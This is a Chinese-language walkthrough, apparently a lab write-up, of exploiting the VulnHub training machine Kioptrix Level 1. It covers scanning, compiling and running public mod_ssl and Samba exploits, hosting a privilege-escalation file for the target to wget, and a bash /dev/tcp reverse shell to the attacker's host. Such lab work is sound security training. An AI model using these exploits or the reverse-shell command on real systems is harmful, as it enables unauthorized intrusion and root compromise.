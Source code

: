 # 环境

来自[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.connectionType = "Bridged"`改成`nat`

# 信息收集

## 发现主机

工具nmap、arp-scan

```bash
nmap -sn 192.168.88.0/24
sudo arp-scan -l  #可以用这个，可以获取ip和mac
```

![image-20240611213509502](image/image-20240611213509502.png)

发现`192.168.88.11`是我们的目标靶机

## 端口扫描

工具nmap、masscan

```bash
sudo nmap -p- -sS 192.168.88.11
```

![image-20240611220942688](image/image-20240611220942688.png)

## 服务详细扫描

```bash
sudo nmap -p22,80,111,139,443,1024 -sV 192.168.88.11
```

结果，攻击面80>443>139>22

![image-20240615133839095](image/image-20240615133839095.png)

# 测试利用

## getshell_1

访问80端口发现，出现apache测试页面，乍一看没啥可利用的，但`apache/1.3.20`,`mod_ssl/2.8.4`版本较低，搜索漏洞

```bash
searchsploit mod_ssl
```

![image-20240615134822632](image/image-20240615134822632.png)

调用脚本

```bash
searchsploit -m 47080  #或者使用cp /usr/share/exploitdb/exploits/unix/remote/47080.c ./
sudo apt install libssl-dev
gcc -o exp 47080.c -lcrypto
./exp #会告诉你参数
```

查看脚本的提示，所需依赖`libssl-dev`，以及编译命令`gcc -o OpenFuck 47080.c -lcrypto`

![image-20240615141225657](image/image-20240615141225657.png)

参数目标系统、目标IP、端口、延迟

`./OpenFuck 0x6b 192.168.88.11 443 -c 40`成功拿shell

![image-20240615141958706](image/image-20240615141958706.png)

![image-20240615142839158](image/image-20240615142839158.png)

按道理是应该是root权限，可能是ptrace-kmod.c没有执行成功，查看脚本，发现这个wget没有执行成功，我们开启服务，设法让目标可以下载我们的提取脚本

![image-20240615143215752](image/image-20240615143215752.png)

我们使用编写一个http-server服务，让靶机可以下载我们的脚本

```python
import http.server
import socketserver
# 定义端口号
PORT = 80
# 使用简单的 HTTP 处理程序
Handler = http.server.SimpleHTTPRequestHandler
# 启动服务器
with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print("在端口", PORT, "启动 HTTP 服务器...")
    # 保持服务器运行，直到手动中断
    httpd.serve_forever()
```

![image-20240615150214629](image/image-20240615150214629.png)

`wget 192.168.88.10/ptrace-kmod.c`，我们再次连接，即可是root权限

![image-20240615150148087](image/image-20240615150148087.png)

接下来进行反弹shell，在kali执行`nc -lvvp 8888`，在靶机执行`bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`

![image-20240615151136698](image/image-20240615151136698.png)

## getshell_2

除了apache的mod_ssl之外，还有一个139端口Samba服务，先探测具体版本，可以使用msfconsle

```bash
msfconsole
search smb_version
set rhost 192.168.88.11
run
```

Samba版本是2.2.1a

![image-20240615151909816](image/image-20240615151909816.png)

利用漏洞脚本

```bash
searchsploit samba 2.2
searchsploit -m 10 #或者使用cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./
gcc 10.c -o samba_exp
./samba_exp -b 0 -v 192.168.88.11
```

![image-20240615153034836](image/image-20240615153034836.png)


